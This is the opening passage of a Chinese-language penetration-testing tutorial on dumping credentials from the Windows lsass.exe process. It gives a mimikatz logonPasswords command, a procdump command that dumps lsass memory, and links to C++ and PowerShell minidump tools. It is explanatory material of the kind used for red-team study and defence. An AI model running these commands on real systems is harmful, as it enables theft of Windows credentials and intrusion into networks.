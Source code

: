 ```yaml
---
layout: post
title: 渗透基础——从lsass.exe进程导出凭据
---
```



## 0x00 前言
---

本文将要结合自己的经验，介绍不同环境下从lsass.exe进程导出凭据的方法，结合利用思路，给出防御建议

## 0x01 简介
---

本文将要介绍以下内容：

- 从lsass.exe进程导出凭据的常用方法
- 限制上传文件长度时导出凭据的方法
- 限制下载文件长度时导出凭据的方法

## 0x02 从lsass.exe进程导出凭据的常用方法
---

### 1.使用mimikatz直接导出凭据

直接从lsass.exe进程的内存中导出凭据，命令如下：

```
mimikatz.exe log "privilege::debug" "sekurlsa::logonPasswords full" exit
```

通常这种方式会被安全产品拦截

### 2.通过lsass.exe进程的dmp文件导出凭据

#### (1)获得lsass.exe进程的dmp文件

1. procdump

命令如下：

```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

2. c++实现

https://github.com/killswitch-GUI/minidump-lib

3. powershell实现

https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Out-Minidump.ps1
